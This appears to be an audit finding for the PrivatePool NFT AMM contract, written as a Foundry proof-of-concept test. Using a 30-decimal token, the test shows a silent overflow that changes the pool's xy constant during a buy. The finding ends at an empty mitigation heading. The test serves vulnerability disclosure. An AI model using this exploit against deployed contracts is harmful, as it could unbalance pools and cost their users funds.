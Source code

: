 Consider the scenario with a base token that has high decimals number described in the next test (add it to the test/PrivatePool/Buy.t.sol)
```solidity
function test_Overflow() public {
    // Setting up pool and base token HDT with high decimals number - 30
    // Initial balance of pool - 10 NFT and 100_000_000 HDT
    HighDecimalsToken baseToken = new HighDecimalsToken();
    privatePool = new PrivatePool(address(factory), address(royaltyRegistry), address(stolenNftOracle));
    privatePool.initialize(
        address(baseToken),
        nft,
        100_000_000 * 1e30,
        10 * 1e18,
        changeFee,
        feeRate,
        merkleRoot,
        true,
        false
    );

    // Minting NFT on pool address
    for (uint256 i = 100; i < 110; i++) {
        milady.mint(address(privatePool), i);
    }
    // Adding 8 NFT ids into the buying array
    for (uint256 i = 100; i < 108; i++) {
        tokenIds.push(i);
    }
    // Saving K constant (xy) value before the trade
    uint256 kBefore = uint256(privatePool.virtualBaseTokenReserves()) * uint256(privatePool.virtualNftReserves());

    // Minting enough HDT tokens and approving them for pool address
    (uint256 netInputAmount,, uint256 protocolFeeAmount) = privatePool.buyQuote(8 * 1e18);
    deal(address(baseToken), address(this), netInputAmount);
    baseToken.approve(address(privatePool), netInputAmount);

    privatePool.buy(tokenIds, tokenWeights, proofs);

    // Saving K constant (xy) value after the trade
    uint256 kAfter = uint256(privatePool.virtualBaseTokenReserves()) * uint256(privatePool.virtualNftReserves());

    // Checking that K constant succesfully was changed due to silent overflow
    assertEq(kBefore, kAfter, "K constant was changed");
}
Add this contract as well into the end of Buy.t.sol file for proper test work:

contract HighDecimalsToken is ERC20 {
    constructor() ERC20("High Decimals Token", "HDT", 30) {}
}
```
Mitigation:
